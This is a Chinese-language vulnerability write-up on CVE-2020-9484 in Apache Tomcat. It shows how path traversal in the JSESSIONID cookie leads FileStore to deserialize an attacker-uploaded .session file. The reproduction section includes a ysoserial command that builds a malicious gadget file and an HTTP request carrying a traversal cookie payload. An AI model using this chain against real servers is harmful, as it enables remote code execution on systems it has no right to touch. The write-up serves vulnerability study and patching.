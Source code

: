 ### CVE-2020-9484

当使用tomcat时，如果使用了tomcat提供的session持久化功能，如果存在文件上传功能，恶意请求者通过一个流程，利用目录穿越，将能发起一个恶意请求造成服务端远程命令执行。

### 漏洞详情

当用户在使用tomcat时，启用了session持久化功能FileStore，例（conf/context.xml）：

```
<Context>
    
    ...

    <Manager className="org.apache.catalina.session.PersistentManager"
      debug="0"
      saveOnRestart="false"
      maxActiveSession="-1"
      minIdleSwap="-1"
      maxIdleSwap="-1"
      maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" directory="./session" />
    </Manager>
</Context>
```
在使用了上述功能的情况下，如果恶意用户可以上传指定后缀（.session）的文件时，利用反序列化gadget，将能造成服务端远程代码执行，原因在于FileStore类读取文件时，使用了JSESSIONID的名称，没有过滤“/../”这样的目录穿越：

org.apache.catalina.session.FileStore：
```
public Session load(String id) throws ClassNotFoundException, IOException {
    // Open an input stream to the specified pathname, if any
    File file = file(id);
    if (file == null || !file.exists()) {
        return null;
    }

    Context context = getManager().getContext();
    Log contextLog = context.getLogger();

    if (contextLog.isDebugEnabled()) {
        contextLog.debug(sm.getString(getStoreName()+".loading", id, file.getAbsolutePath()));
    }

    ClassLoader oldThreadContextCL = context.bind(Globals.IS_SECURITY_ENABLED, null);

    try (FileInputStream fis = new FileInputStream(file.getAbsolutePath());
            ObjectInputStream ois = getObjectInputStream(fis)) {

        StandardSession session = (StandardSession) manager.createEmptySession();
        session.readObjectData(ois);
        session.setManager(manager);
        return session;
    } catch (FileNotFoundException e) {
        if (contextLog.isDebugEnabled()) {
            contextLog.debug("No persisted data file found");
        }
        return null;
    } finally {
        context.unbind(Globals.IS_SECURITY_ENABLED, oldThreadContextCL);
    }
}

private File file(String id) throws IOException {
    if (this.directory == null) {
        return null;
    }
    String filename = id + FILE_EXT;
    File file = new File(directory(), filename);
    return file;
}
```
上述代码，通过构造“/../”的filename路径，将能穿越到任意目录去读取后缀为“.session”的序列化数据进行反序列化。

### 影响版本

```
<= 9.0.34
<= 8.5.54
<= 7.0.103
```

### 漏洞复现

配置tomcat的conf/context.xml文件：

```
<Context>
    
    ...

    <Manager className="org.apache.catalina.session.PersistentManager"
      debug="0"
      saveOnRestart="false"
      maxActiveSession="-1"
      minIdleSwap="-1"
      maxIdleSwap="-1"
      maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" directory="./session" />
    </Manager>
</Context>
```

部署一个存在以下依赖的webapp（一个存在commons-collections4的jar依赖的web服务，例bug.war）到tomcat：

```
dependencies {
    compile 'org.apache.commons:commons-collections4:4.0'
}
```

使用github上的ysoserial工具->```https://github.com/frohoff/ysoserial```，生成commons-collections4依赖的gadget恶意序列化数据：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 "touch /tmp/tomcat-bug" > /tmp/22222.session
```

通过有缺陷的文件上传功能把恶意序列化数据文件上传到任意目录，但后缀必须是“.session”，例如：/tmp/22222.session

最后，发起恶意请求，请求payload：

```
GET /bug/api HTTP/1.1
Host: 127.0.0.1:8080
Cookie: JSESSIONID=../../../../../../../../../../../../tmp/22222


```
将会导致服务端远程代码执行
